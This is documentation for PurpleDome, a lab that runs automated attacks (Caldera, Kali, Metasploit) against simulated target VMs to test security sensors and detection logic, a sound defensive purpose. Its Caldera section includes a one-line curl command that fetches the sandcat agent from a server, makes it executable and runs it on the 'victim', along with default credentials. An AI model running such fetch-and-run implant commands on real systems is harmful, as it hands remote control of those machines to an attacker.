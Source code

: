 ======
Basics
======

Purple Dome is a simulated and automated environment to experiment with hacking - and defense.

PurpleDome is relevant for you:

* If you develop **sensors** for bolt on security
* If you want to test **detection logic** for your bolt on security
* If you want to stress test **mitigation** around your vulnerable apps
* Experiment with **hardening** your OS or software
* Want to **forensically** analyse a system after an attack
* Do some **blue team exercises**
* Want to **train ML** on data from real attacks

PurpleDome simulates a small business network. It generates an attacker VM and target VMs. Automated attacks are then run against the targets.

Depending on which sensors you picked you will get their logs. And the logs from the attacks. Perfect to compare them side-by-side.

Attacks are written as small plugins and control pre-installed tools:

* Kali command line tools
* Caldera commands
* Metasploit

That way your experiments focus on behaviour detection. And not on whack-a-mole games with malware samples.

-------------------

Features
========

* Linux and Windows targets
* VM controller abstracted as plugins
    * Local vagrant based (debug and development)
    * Cloud based
* Attacks as plugins controlling
    * Caldera attacks
    * Kali attacks
    * Metasploit attacks
* Data collection: Attack log and sensor data in parallel with timestamps for matching events
* Vulnerability plugins: Modify the targets before the attack
* Sensor plugins: Write a simple wrapper around your sensor and integrate it into the experiments

Components
==========

The command line tools are the way you will interact with Purple Dome. Find more in the *CLI* chapter.

You can configure the experiments in YAML files, the *configuration* chapter describes the format. Next you will also want to create some target VMs. This can be done manually or by using Vagrant. Vagrant makes it simple to create Linux targets. Windows targets (with some start configuration) are harder and have an own chapter.

If you want to modify Purple Dome and contribute to it I can point you to the *Extending* chapter. Thanks to a plugin interface this is simple.

Data aggregator
---------------

We use logstash


Caldera
-------

You can use the attack framework Caldera for pen testing and blue team training.

Starting it: *python3 server.py --insecure*

Web UI on *http://localhost:8888/*

Credentials: *red/admin*

Documentation: https://caldera.readthedocs.io/en/latest/

Installing client on victim (Linux):

server="http://192.168.178.45:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v

Filebeat
--------

Filebeat collects logs on the target system.

It has a set of modules:

https://www.elastic.co/guide/en/beats/filebeat/6.8/filebeat-modules-overview.html

You can view a list of modules using: *filebeat modules list*


Logstash
--------

Filebeat uses Logstash to aggregate data into a json file.

Logstash uses all .conf files in /etc/logstash/conf.d

https://www.elastic.co/guide/en/logstash/current/config-setting-files.html

Repos
-----

You can find PurpleDome on github: https://git.int.avast.com/ai-research/purpledome

